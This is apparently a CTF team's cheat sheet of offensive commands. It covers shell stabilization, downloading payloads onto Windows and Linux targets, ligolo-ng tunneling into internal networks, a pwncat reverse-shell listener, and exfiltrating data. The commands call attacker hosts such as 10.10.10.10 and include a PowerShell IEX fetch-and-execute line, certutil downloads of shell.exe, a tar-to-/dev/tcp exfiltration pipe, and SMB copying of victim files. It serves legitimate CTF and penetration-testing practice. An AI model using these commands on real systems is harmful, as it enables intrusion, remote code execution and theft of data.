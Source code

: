 # 🄿🅄🅁🄿🄻🄴🅂🅃🄾🅁🄼 🅃🅃🄿🅂

A collection of commands, tools, techniques and procedures of the purplestorm ctf team.

## Table of Contents

- [Basics](#basics)
  - [Stabilizing Linux Shell](#stabilizing-linux-shell)
  - [Port Forwarding](#port-forwarding)
  - [Transfering Files](#transfering-files)
- [Tooling](#tooling)
  - [Swaks](#swaks)
  - [ligolo-ng](#ligolo-ng)
  - [CrackMapExec](CrackMapExec.md)
- [C2](#c2)
  - [Sliver](Sliver.md)
- [Databases](#databases)
  - [SQL Injection](SQL%20Injection.md)
- [Payloads](#payloads)
  - [Reverse Shell](#reverse-shell)
- [Data Exfiltration](#exfiltrating-data)


## Basics

### Stabilizing Linux Shell / Obtaining a comfy pty (pseudo terminal) 

1. spawn a pty (required for interactive IO such as `su`)

via `python2`:
```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

via `python3`:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

via `script` (works most of the time when python is not available):
```shell
script /dev/null -c bash
```

2. hit __CTRL+Z__ to background your listener process

3. configure your shell to send IO straight through the connenction and not echo back input.  
```shell
stty raw -echo; fg
```
this allows for __CTRL+L__ and __CTRL+C__ to work.

4. paste for extra comfort :)
```shell
export SHELL=/bin/bash;
export TERM=xterm;
alias ll='ls --color -alhF';
stty rows 110 cols 240;
reset;
```


## Transfering files

### Windows

cmd:

```
iwr -uri "http://10.10.10.10:8080/shell.exe" -outfile "shell.exe"

wget -O shell.exe 10.10.10.10:8000/shell.exe

certutil -urlcache -f  http://10.10.10.10:8000/shell.exe C:\inetpub\shell.exe
```

Powershell:

```
Invoke-WebRequest http://10.10.10.10:8000/shell.exe -OutFile shell.exe

powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.10.10:8000/shell.exe', 'shell.exe')"

powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:8000/something.ps1')"
```

via SMB:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .    # On attacker

copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe    # On target
```

### Linux

```
wget http://10.10.10.10:8000/some.sh

curl -o some.sh http://10.10.10.10:8000/some.sh
```

via base64:

```
cat shell.sh | base64 -w 0   # On attacker
echo <base64encoded> | base64 -d > shell.sh   # On target
```
via scp:
```
scp some.sh user@10.10.10.10:/tmp/some.sh   # On attacker
```

## Tooling

### Swaks

- [https://github.com/jetmore/swaks](https://github.com/jetmore/swaks)

```shell
swaks --server example.com --port 587 --auth-user "user@example.com" --auth-password "password" --to "user@target.com" --from ""user@example.com" --header "Subject: foobar" --body "\\\<LHOST>\x"
```

### Ligolo-ng

- [https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

#### Prepare Tunnel Interface

```shell
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

#### Setup Proxy on Attacker Machine

```shell
./proxy -laddr LHOST:443 -selfcert
```

#### Setup Agent on Target Machine

```shell
./agent -connect LHOST:443 -ignore-cert
```

#### Configure Session

use the `session` command to select the agent session:
```ligolo-ng
ligolo-ng » session
```

display the network configuration of the agent session:
```ligolo-ng
[Agent : user@target] » ifconfig
```

add a route to the target internal network `172.16.1.0/24` via ligolo: (routes created this way are only temporary until the next reboot.)
```shell
sudo ip r add 172.16.1.0/24 dev ligolo
```
delete a route, in case you messed up:
```shell
sudo ip r del 172.16.1.0/24 dev ligolo
```

start tunneling to the target internal network:
```ligolo-ng
[Agent : user@target] » start
```

you can now reach the `172.16.1.0/24` internal network through the ligolo agent.  
everytime 

#### ligolo-ng Port Forwarding

```ligolo-ng
[Agent : user@target] » listener_add --addr <RHOST>:<LPORT> --to <LHOST>:<LPORT> --tcp
```

## Payloads

### Reverse Shell

- [https://github.com/calebstewart/pwncat](https://github.com/calebstewart/pwncat)

```shell
pip install pwncat-cs
Listener: pwncat-cs 192.168.1.1 4444
(To change from pwncat shell to local shell, use Ctrl+D)
```

## Data Exfiltration

### Linux

#### via TCP socket, ebcdic and base64

On kali:

```
nc -nlvp 80 > datafolder.tmp
```

On target:

```
tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/10.10.10.10/80
```

On kali:

```
dd conv=ascii if=datafolder.tmp | base64 -d > datafolder.tar
tar xf datafolder.tar
```

#### via SSH

On target:

```
tar zcf - /tmp/datafolder | ssh root@<attacker_ip> "cd /tmp; tar zxpf -"
```

On kali:

```
cd /tmp/datafolder
```

### Windows

via SMB server:

```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -username user -password pass share . -smb2support  # On kali
net use \\10.10.16.5\share /u:user pass   # On victim
copy C:\Users\user\Desktop\somefile.txt \\10.10.16.5\share\somefile.txt   # On victim
```

via pscp:

```
pscp Administrator@10.10.10.10:/Users/Administrator/Downloads/something.txt
```

